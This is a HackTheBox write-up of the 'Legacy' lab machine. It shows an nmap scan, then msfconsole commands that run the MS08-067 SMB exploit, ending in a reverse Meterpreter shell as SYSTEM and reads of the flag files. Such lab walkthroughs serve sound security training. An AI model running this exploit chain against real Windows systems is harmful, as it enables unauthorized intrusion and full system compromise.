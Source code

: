 ```yaml
---
title: "Walk-through of Legacy from HackTheBox"
header:
  teaser: /assets/images/2020-05-05-22-13-16.png
toc: true
toc_sticky: true
excerpt_separator:  <!--more-->
categories:
  - CTF
tags:
  - HTB
  - CTF
  - SMB
  - Metasploit
  - Windows
---
```


## Machine Information

![Legacy](/assets/images/2020-05-05-22-13-16.png)

Legacy is a beginner level machine which demonstrates the potential security risks of SMB on Windows. Only one publicly available exploit is required to obtain administrator access.
Skills required are basic knowledge of Windows and enumerating ports and services. Skills learned are identifying vulnerable services and exploiting SMB.

<!--more-->

| Details |  |
| --- | --- |
| Hosting Site | [HackTheBox](https://www.hackthebox.eu/) |
| Link To Machine | [HTB - 002 - Easy - Legacy](https://www.hackthebox.eu/home/machines/profile/2) |
| Machine Release Date | 15th March 2017 |
| Date I Completed It | 23rd July 2019 |
| Distribution used | Kali 2019.1 – [Release Info](https://www.kali.org/news/kali-linux-2019-1-release/) |

### Initial Recon

Check for open ports with Nmap:

```text
root@kali:~/htb/legacy# nmap -sC -sV -oA legacy 10.10.10.4

Starting Nmap 7.70 ( https://nmap.org ) at 2019-07-23 14:48 BST
Nmap scan report for 10.10.10.4
Host is up (0.039s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows,cpe:/o:microsoft:windows_xp
 Host script results:
 |_clock-skew: mean: 5d00h23m48s, deviation: 2h07m16s, median: 4d22h53m48s
 |_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b0:7a:76 (VMware)
 | smb-os-discovery: 
 |   OS: Windows XP (Windows 2000 LAN Manager)
 |   OS CPE: cpe:/o:microsoft:windows_xp::-
 |   Computer name: legacy
 |   NetBIOS computer name: LEGACY\x00
 |   Workgroup: HTB\x00
 |_  System time: 2019-07-28T18:42:51+03:00
 | smb-security-mode: 
 |   account_used: guest
 |   authentication_level: user
 |   challenge_response: supported
 |_  message_signing: disabled (dangerous, but default)
 |_smb2-time: Protocol negotiation failed (SMB2)
```

## Method using Meterpreter

### Gaining Access

The machine is running on Windows XP, start msfconsole and look for exploit:

```text
root@kali:~/htb/legacy# service postgresql start
root@kali:~/htb/legacy# msfconsole
```

Well known exploit for XP is netapi:

```text
msf5 > search netapi

Matching Modules
================ 
  #  Name                                 Disclosure Date  Rank    Check  Description
  -  ----                                 ---------------  ----    -----  -----------
  -     0  exploit/windows/smb/ms03_049_netapi  2003-11-11       good    No     MS03-049 Microsoft Workstation Service NetAddAlternateComputerName Overflow
  -     1  exploit/windows/smb/ms06_040_netapi  2006-08-08       good    No     MS06-040 Microsoft Server Service NetpwPathCanonicalize Overflow
  -     2  exploit/windows/smb/ms06_070_wkssvc  2006-11-14       manual  No     MS06-070 Microsoft Workstation Service NetpManageIPCConnect Overflow
  -     3  exploit/windows/smb/ms08_067_netapi  2008-10-28       great   Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption
```

Says rank is great so try this:

```text
msf5 > use exploit/windows/smb/ms08_067_netapi
msf5 exploit(windows/smb/ms08_067_netapi) > options
Module options (exploit/windows/smb/ms08_067_netapi): 
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)
Exploit target: 
   Id  Name
   --  ----
   0   Automatic Targeting

msf5 exploit(windows/smb/ms08_067_netapi) > set RHOST 10.10.10.4
RHOST => 10.10.10.4
msf5 exploit(windows/smb/ms08_067_netapi) > exploit
[*] Started reverse TCP handler on 10.10.14.22:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (179779 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.22:4444 -> 10.10.10.4:1035) at 2019-07-23 15:02:01 +0100
```

### User and Root Flags

Meterpreter session connected, take a look around:

```text
meterpreter > sysinfo
Computer        : LEGACY
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > pwd
C:\
```

Exploit has connected me as System, so can get both flags:

```text
meterpreter > cat "Documents and Settings\john\desktop\user.txt"
meterpreter > cat "Documents and Settings\administrator\desktop\root.txt"
```

All done, that was nice and easy.
